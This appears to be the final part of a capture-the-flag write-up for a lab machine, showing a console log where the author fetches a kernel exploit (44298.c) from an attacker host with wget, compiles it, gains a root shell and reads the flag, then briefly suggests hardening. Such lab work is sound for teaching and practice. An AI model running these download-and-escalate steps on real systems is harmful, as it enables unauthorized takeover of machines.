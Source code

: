 ```console
help@help:/tmp$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
help@help:/tmp$ wget http://10.10.14.14/44298.c
--2024-01-22 10:59:39--  http://10.10.14.14/44298.c
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6021 (5.9K) [text/x-csrc]
Saving to: ‘44298.c’

44298.c             100%[===================>]   5.88K  --.-KB/s    in 0.003s  

2024-01-22 10:59:40 (1.99 MB/s) - ‘44298.c’ saved [6021/6021]
help@help:/tmp$ gcc -o exp 44298.c 
help@help:/tmp$ ./exp 
task_struct = ffff88001d33aa80
uidptr = ffff88003db4d004
spawning root shell
root@help:/tmp# whoami
root
root@help:/tmp# cd /root
root@help:/root# ls
root.txt  snap
root@help:/root# cat root.txt 
1c6ffdc113c1bc11dd8ae8405e197107
root@help:/root#
```

gg
## Beyond Root

Generally speaking, the helpdesk instance is vulnerable to code execution. The graphql instance woulda likeliy worked with the SQLi on the webpage but it isn't actually needed. Hardening the graphql instance and actually keeping it on localhost would be effective. 

Next I would like to update the local machine to latest ubuntu to keep it safe otherwise its good!

best,
gerbsec